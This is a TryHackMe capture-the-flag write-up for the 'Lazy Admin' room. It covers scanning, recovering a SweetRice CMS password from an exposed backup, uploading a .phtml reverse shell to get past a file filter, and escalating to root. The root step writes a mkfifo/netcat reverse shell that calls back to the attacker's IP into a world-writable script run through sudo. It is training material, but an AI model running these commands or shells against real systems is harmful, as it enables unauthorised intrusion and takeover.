# Try Hack Me Writeup - Lazy Admin

Easy linux machine to practice your skills

TryHackMe room: <https://tryhackme.com/room/lazyadmin>



_Fancy imagination of Itchy - All rights reserved._

**WARNING: I stripped out the answers, passwords, flags and co. This writeup is pretty detailed. By following and doing the steps described here yourself you will get them all. The goal is to learn more about it, even if you get stuck at some point. Enjoy!**

## Table of Contents

- [Tools Used](#tools-used)
- [Enumeration](#enumeration)
- [Handling the Basic CMS SweetRice](#handling-the-basic-cms-sweetrice)
- [Gaining shell access](#gaining-shell-access)
- [Horizontal Privilege Escalation](#horizontal-privilege-escalation)

## Tools Used

- `nmap` - Enumeration of the open ports and services running.
- `gobuster` - Enumeration of the web server.
- web shell -  This one `/usr/share/webshells/php/php-reverse-shell.php`.
- `nc` - For remote connections.
- A few very basic GNU / Linux commands.

## Enumeration

Export that target `ip` address.

````commandline
export IP=10.10.2.141
````
Enumerated the target with the basic options of`nmap`. Scan result below.

```commandline
# nmap -sC -sV -p- $IP
Starting Nmap 7.91 ( https://nmap.org ) at 2021-08-22 09:58 CEST
Nmap scan report for 10.10.62.182
Host is up (0.030s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 49:7c:f7:41:10:43:73:da:2c:e6:38:95:86:f8:e0:f0 (RSA)
|   256 2f:d7:c4:4c:e8:1b:5a:90:44:df:c0:63:8c:72:ae:55 (ECDSA)
|_  256 61:84:62:27:c6:c3:29:17:dd:27:45:9e:29:cb:90:5e (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 38.39 seconds
```

Nothing fancy at all at first sight. Scanned all ports, however.

**Ports and services:**

- `22` - `ssh` - `OpenSSH 7.2p2 Ubuntu 4ubuntu2.8`
- `80` - `http` - `Apache httpd 2.4.18 ((Ubuntu))`

Took a look to the website installed on this `Apache` webserver, but nothing fancy found. The default apache index page, after a fresh installation.



Enumerated the website with `gobuster` did also not reveal so much. Showed up on folder <http://10.10.62.182/content/>.

```commandline
$ gobuster dir -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -u http://$IP
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.62.182
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2021/08/22 09:58:58 Starting gobuster in directory enumeration mode
===============================================================
/content              (Status: 301) [Size: 314] [--> http://10.10.62.182/content/]
/server-status        (Status: 403) [Size: 277]                                   
                                                                                  
===============================================================
2021/08/22 10:11:05 Finished
===============================================================
```

## Handling the Basic CMS SweetRice

Going to the link <http://10.10.62.182/content/>, indicated by `gobuster` bring us to another setup page. This time, something to do with [SweetRice](https://www.sweetrice.xyz/) CMS. Pointing the mouse cursor on the link "`Tip for Basic CMS SweetRice Installed`" gave already information to where this link leads too. `gobuster` did not reveal other files or folders, but still tried some random attempts to go into that "`setting`" or "`dashboard`" admin section, but no luck so far.



So I clicked onto the link: <https://www.sweetrice.xyz/docs/5-things-need-to-be-done-when-SweetRice-installed/>. Landed on the [SweetRice](https://www.sweetrice.xyz/) website. With some instructions on how to open the website and to secure it. Reading the instructions of your tool will ensure you follow their recommendations. In this case, we are looking for things a lazy admin did not take care of. This page is actually very resourceful.




So I ended up searching in Google with the keywords `sweet rice default credentials` to figure out if this could help me. The first hit pointed to [Basic-cms Sweetrice : List of security vulnerabilities - CVE...](https://www.cvedetails.com/vulnerability-list/vendor_id-8230/product_id-18429/Basic-cms-Sweetrice.html). Looking there, revealed that there are 6 known vulnerabilities. I like the [CVE Details website](https://www.cvedetails.com/) as it show up the `CVSS Score` and gives a little description. The CVE number is also clear.



But I prefer the [exploit-db website](https://www.exploit-db.com). Not because it's more slick, but in my opinion more clear and more efficient for me. Usually there are also exploit code included. But generally speaking, it's wise to look to all this information you have at your disposal. So I also took a look on the [exploit-db website](https://www.exploit-db.com) with the keyword `SweetRice`, which revealed there are 8 know vulnerabilities. The first entry, with the title [SweetRice 1.5.1 - Backup Disclosure](https://www.exploit-db.com/exploits/40718) revealed interesting information. But so far, I have no information with which version I'm dealing. So this will be trail and error work.



Took a look to [EDB-ID:40718](https://www.exploit-db.com/exploits/40718) which inform us where the mysql backup is stored. Tried this out and indeed on <http://10.10.62.182/content/inc/mysql_backup/> I found a `sql` file which I downloaded.



This looks like the queries to create the database. On line `79` of this file, it looks like we found out the user account `admin` or `manager` with the associated hashed password `42****ade7f9e195bf475f37a4****cb`. Did not even try to look at what kind of hash this is (`md5`). But looked at the [CrackStation website](https://crackstation.net/), pasted in the web form and received `P***wor***3` as password result.



At this point I was a bit, no very much stuck, actually. Thinking a lot, as I found credentials but still did not find the admin or login interface of this `SweetRice` Content Management System. Then realised that with my first `gobuster` scan, I scanned the root of this webserver, which revealed that `/content/` folder. The sys-admin did not install the CMS on the root, but into a sub-folder. These `gobuster` scans are not recursive as we would expect, so I ran a second `gobuster` scan with specifying the `/content/` folder too. Which revealed much more information.

```commandline
$ gobuster dir -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -u http://$IP/content/
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.62.182/content/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2021/08/22 11:23:43 Starting gobuster in directory enumeration mode
===============================================================
/images               (Status: 301) [Size: 321] [--> http://10.10.62.182/content/images/]
/js                   (Status: 301) [Size: 317] [--> http://10.10.62.182/content/js/]    
/inc                  (Status: 301) [Size: 318] [--> http://10.10.62.182/content/inc/]   
/as                   (Status: 301) [Size: 317] [--> http://10.10.62.182/content/as/]    
/_themes              (Status: 301) [Size: 322] [--> http://10.10.62.182/content/_themes/]
/attachment           (Status: 301) [Size: 325] [--> http://10.10.62.182/content/attachment/]
                                                                                             
===============================================================
2021/08/22 11:36:12 Finished
===============================================================
```

With the result of this second `gobuster` scan, finally found the admin login form at <http://10.10.62.182/content/as/>. I was a bit too curious about what that lost dot was doing there on the right side. Apparently a fancy feature to change the color of that page. Tried to log in with the `admin` account found previously, but it did not work. So tried that user `manager` and this did it. `admin` is the group to which the user `manager` belong to I must assume by now.



So far so good, we are in. But now we need to find a way to get into the system.



As we saw, the website was not activated, so I first clicked that `Running` button to activate it. Looking at <http://10.10.62.182/content/> and see that the website is now active. But without any content yet.



Usually, getting into the system though a web interface, is by nesting some code that will be executed. This could be code that execute our commands to reveal more information of the system for example. Or something that will give us a shell access, bind or reverse, does not really matter. Actually there are tons of different possibilities, but we need to find out if this CMS allows us to do that. Like we are admin on this website, this could be maybe possible by uploading ourselves some code into some page or whatever. But like there are quite some know vulnerabilities for this `SweetRice 1.5.1` CMS, it's maybe faster to look at them instead of trying to study this CMS ourselves. Other people probably already found out some stuff.

We can find web shells everywhere, for example this one,  `/usr/share/webshells/php/php-reverse-shell.php` which I'm using and got it preinstalled on my `Kali` host machine. Just need to edit the file and define our `ip` and the `port` variable.

So at this point, we need to go back to our vulnerabilities list we found on the [exploit-db website](https://www.exploit-db.com). Tried this [exploit with ref 40716](https://www.exploit-db.com/exploits/40716) with as title `SweetRice 1.5.1 - Arbitrary File Upload`, a `Python` script which seems to be able to upload some file. I like `Python` very much and can code into that language. So in the worst case I can adapt the code if needed. After some trial and error, the script seemed to have succeeded to upload my `webshell.php` file. But no, it did not work when I looked at <http://10.10.62.182/content/attachment/> which permit directory listing. I also caught the  little double slash issue in the `url` output of this script. Do not know if this just a print issue, or issue with the `Python` code. Maybe a reason why it did not work. I have no idea, I did not take the time to study this. I was realising that I probably should not even use some script. If this `attachment` folder is created by default, like our `gobuster` showed. Then Somehow, by creating some post or upload interface, we should be able to do it ourselves. I should have been more careful when I enumerated the web server for the second time. I should have looked at each link `gobuster` had output and tried each of them. Would have do me realise some things I guess and saved me time.



_Coming back to this, to clarify some things about this `Python` script. As later on, I found out that the CMS or webserver filtered the upload on `php` extension and do not allow us to upload such files as attachment. Maybe this `Python` script would have work if I had tried to upload my web shell with the `phtml` extension. I leave this mystery for you._

I could have looked back to the [exploit-db website](https://www.exploit-db.com) but I was so excited, that I wanted to figure it out myself. I Love using Content Management Systems. I made myself a few in the past. Many are insecure by providing too much flexibility or opportunities, features, like my toys back then. I have read that the [exploit-db website](https://www.exploit-db.com) has some other vulnerability options, in case if I finally don't find out. So I looked around more carefully, as I could have figured this all out way before. And found out we can attach files when creating a new post. It did not even take 5 minutes to find that out. Sometimes, it's better to look yourself instead of thinking to gain time by using scripts etc.

So I created a new post with some content and attached some web shell. To add an attachment, we need to press that `Add File` button on the bottom of the page. Which load, in overlay mode a new window. Some kind of file manager where we can upload files.



Tried first, like a pig, by uploading my `webshell.php` file as is. Did not receive any error message, but it did not work as it was not listed into <http://10.10.62.182/content/attachment/>. Then tried `webshell.php.jpg` which succeeded the uploading and filtering process. But when trying to load this file, the browser displayed an error message `The image ..... cannot be displayed because it contains errors`. So I tried a 3rd version, `webshell.phtml` and this passed the upload and poor filtering process.



## Gaining shell access

Setting up a `NetCat` listener is a matter of running the command `nc -nlvp 1234`. Which has to be done before trying to load the web shell which in my case was located at <http://10.10.62.182/content/attachment/webshell.phtml>. 

The netcat reverse shell got the signal and got connected to the system as user `www-data`.

```commandline
$ nc -nlvp 1234
listening on [any] 1234 ...
connect to [10.8.208.30] from (UNKNOWN) [10.10.62.182] 56896
Linux THM-Chal 4.15.0-70-generic #79~16.04.1-Ubuntu SMP Tue Nov 12 11:54:29 UTC 2019 i686 i686 i686 GNU/Linux
 13:26:50 up  2:34,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$
```

Looked a bit around:

```commandline
$ ls /home/                                                                                       
itguy
$ ls /home/itguy/
Desktop
Documents
Downloads
Music
Pictures
Public
Templates
Videos
backup.pl
examples.desktop
mysql_login.txt
user.txt
$ cd /home/itguy
$ ls Desktop
$ ls Documents
$ cat mysql_login.txt
rice:randompass
$ cat user.txt
THM{63****e9271952aad1113b6f1a****07}
```

At this point, it looks like I was lazy like this admin, because I didn't stabilize my shell yet. Ant that was a pain. So now first stabilizing it. firstly, by executing that famous `python -c 'import pty;pty.spawn("/bin/bash")'` command, then entering `TERM=xterm`, pressing `CTRL + z` to background the process, with finally the stty `raw -echo; fg` command to bring me back where I was. A free `Enter` press is also required to see back the prompt.

```commandline
$ python -c 'import pty;pty.spawn("/bin/bash")'
www-data@THM-Chal:/home/itguy$ TERM=xterm
TERM=xterm
www-data@THM-Chal:/home/itguy$ ^Z
[1]+  Stopped                 nc -nlvp 1234
┌──(itchy㉿scratchy)-[~]
└─$ stty raw -echo; fg
nc -nlvp 1234

www-data@THM-Chal:/home/itguy$
```

## Horizontal Privilege Escalation

Now looking a bit more closely to hidden files and to the file permissions. Need to get more power, need more rights than a simple system user. No `.ssh` folder, so I guess, no `ssh` usage for this `itguy` user. The file `.bash_history` is pointing to the magic trash can, so that also not helpful. We can not read a lot of files it looks like.

```commandline
www-data@THM-Chal:/home/itguy$ ls -lah
total 148K
drwxr-xr-x 18 itguy itguy 4.0K Nov 30  2019 .
drwxr-xr-x  3 root  root  4.0K Nov 29  2019 ..
-rw-------  1 itguy itguy 1.6K Nov 30  2019 .ICEauthority
-rw-------  1 itguy itguy   53 Nov 30  2019 .Xauthority
lrwxrwxrwx  1 root  root     9 Nov 29  2019 .bash_history -> /dev/null
-rw-r--r--  1 itguy itguy  220 Nov 29  2019 .bash_logout
-rw-r--r--  1 itguy itguy 3.7K Nov 29  2019 .bashrc
drwx------ 13 itguy itguy 4.0K Nov 29  2019 .cache
drwx------ 14 itguy itguy 4.0K Nov 29  2019 .config
drwx------  3 itguy itguy 4.0K Nov 29  2019 .dbus
-rw-r--r--  1 itguy itguy   25 Nov 29  2019 .dmrc
drwx------  2 itguy itguy 4.0K Nov 29  2019 .gconf
drwx------  3 itguy itguy 4.0K Nov 30  2019 .gnupg
drwx------  3 itguy itguy 4.0K Nov 29  2019 .local
drwx------  5 itguy itguy 4.0K Nov 29  2019 .mozilla
-rw-------  1 itguy itguy  149 Nov 29  2019 .mysql_history
drwxrwxr-x  2 itguy itguy 4.0K Nov 29  2019 .nano
-rw-r--r--  1 itguy itguy  655 Nov 29  2019 .profile
-rw-r--r--  1 itguy itguy    0 Nov 29  2019 .sudo_as_admin_successful
-rw-r-----  1 itguy itguy    5 Nov 30  2019 .vboxclient-clipboard.pid
-rw-r-----  1 itguy itguy    5 Nov 30  2019 .vboxclient-display.pid
-rw-r-----  1 itguy itguy    5 Nov 30  2019 .vboxclient-draganddrop.pid
-rw-r-----  1 itguy itguy    5 Nov 30  2019 .vboxclient-seamless.pid
-rw-------  1 itguy itguy   82 Nov 30  2019 .xsession-errors
-rw-------  1 itguy itguy   82 Nov 29  2019 .xsession-errors.old
drwxr-xr-x  2 itguy itguy 4.0K Nov 29  2019 Desktop
drwxr-xr-x  2 itguy itguy 4.0K Nov 29  2019 Documents
drwxr-xr-x  2 itguy itguy 4.0K Nov 29  2019 Downloads
drwxr-xr-x  2 itguy itguy 4.0K Nov 29  2019 Music
drwxr-xr-x  2 itguy itguy 4.0K Nov 29  2019 Pictures
drwxr-xr-x  2 itguy itguy 4.0K Nov 29  2019 Public
drwxr-xr-x  2 itguy itguy 4.0K Nov 29  2019 Templates
drwxr-xr-x  2 itguy itguy 4.0K Nov 29  2019 Videos
-rw-r--r-x  1 root  root    47 Nov 29  2019 backup.pl
-rw-r--r--  1 itguy itguy 8.8K Nov 29  2019 examples.desktop
-rw-rw-r--  1 itguy itguy   16 Nov 29  2019 mysql_login.txt
-rw-rw-r--  1 itguy itguy   38 Nov 29  2019 user.txt
```

Immediately after this, I looked what this `www-data` user is able to do with the `sudo -l` command. Not to be confused with this `itguy` user where we are actually looking into its home folder and grabbed his files. But we don't own the credentials of user `itguy` so far. And probably also useless to try to get that. Running the command `sudo -l`, revealed that the `www-data` user is able to run some `Perl`, script without a password. D@mn, I hate `Perl`. It's such a nasty and complex language to write code. That syntax is just horrible, just for the very geek fanboys in my opinion. Never managed to something with that language. Well, actually, never got motivated to learn more about `Perl`.

```commandline
www-data@THM-Chal:/home/itguy$ sudo -l
Matching Defaults entries for www-data on THM-Chal:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on THM-Chal:
    (ALL) NOPASSWD: /usr/bin/perl /home/itguy/backup.pl
```

Looking at the content of that `/home/itguy/backup.pl` script. We find out it make use of some other script. This `backup.pl` script is only readable by everyone but executable by the `other users`, not `group`, nor the `owner` of this script. Which is `root` like discovered before.

```commandline
www-data@THM-Chal:/home/itguy$ cat /home/itguy/backup.pl 
#!/usr/bin/perl

system("sh", "/etc/copy.sh");
```

Looking to the file permissions of the `/etc/copy.sh` file, discovering everyone can edit this file. So we need to find a way to add something into this security hole, so that we can gain `root` access. As this script will be run with `root` rights.

```commandline
ww-data@THM-Chal:/home/itguy$ ls -lh /etc/copy.sh 
-rw-r--rwx 1 root root 81 Nov 29  2019 /etc/copy.sh
```

On the [Reverse Shell Cheat Sheet of PayloadAllThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md), we find enormous ways of creating a reverse shell. But this time, I made use of the website [www.revshells.com](https://www.revshells.com) and used the `nc mkfifo` method. **Warning**, my `MalwareBytes Browser Guard` blocked this website, with a warning that this is a `Malware Activity` site, had to press the magic button to proceed and enter the website. Daily $h!t like we say. But at the same time, I'm looking for it. Don't ask me why I went on that website from my host `Microsoft Windows` computer instead from my virtual `Kali` machine. People are strange. No, actually, I like to do that, because this way we can find out which website are reported as malware website.



So after grabbing that magic trick of [www.revshells.com](https://www.revshells.com), need to add that into this `/etc/copy.sh` file. `nano` Does Not Work (tm), due the type of shell we currently have. `vi` unknown on the system. So strange, an `emacs` user I guess. Or does this lazy admin not use any command line text editor to edit his config files? Anyway, `echo'ing` this then to the script file.

```commandline
$ echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1 | nc 10.8.208.30 9999 >/tmp/f" > /etc/copy.sh
```

_I striped out a bit of previous shell commands to keep it more clear._

Before running this script with `sudo` rights, on my host machine, I have set a new `netcat` listener on port `9999` with the command `nc -nlvp 9999`.

Now running the `Perl` script with `sudo` rights.

```commandline
$ sudo /usr/bin/perl /home/itguy/backup.pl
```

Looking back at the listener on the host machine, and we got hit.

```commandline
$ nc -nlvp 9999
listening on [any] 9999 ...
connect to [10.8.208.30] from (UNKNOWN) [10.10.62.182] 53114
# whoami
root
# cd /root
# ls
root.txt
# cat root.txt
THM{66****1d0177b6f37cb20d7751****9f}
```

Mission accomplished!

Hopefully you enjoyed as much as I did :-)
